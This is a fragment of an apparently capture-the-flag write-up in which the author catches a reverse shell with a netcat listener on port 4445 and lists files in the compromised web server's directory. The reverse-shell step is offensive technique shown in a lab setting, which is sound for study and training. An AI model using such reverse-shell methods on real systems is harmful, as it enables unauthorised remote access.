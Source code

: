 Now, back to `10.0.0.5` for the reverse shell:
```console
cuser@HoshenCtf2:~$ nc -lvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 10.0.0.7 36238 received!
/bin/sh: 0: can't access tty; job control turned off
$ ls
gallery
index.html
index.php
pages
pics
test.php
web.css
$
```

At some point, `nmap` and `nc` were removed and access to `10.0.0.7` was blocked.
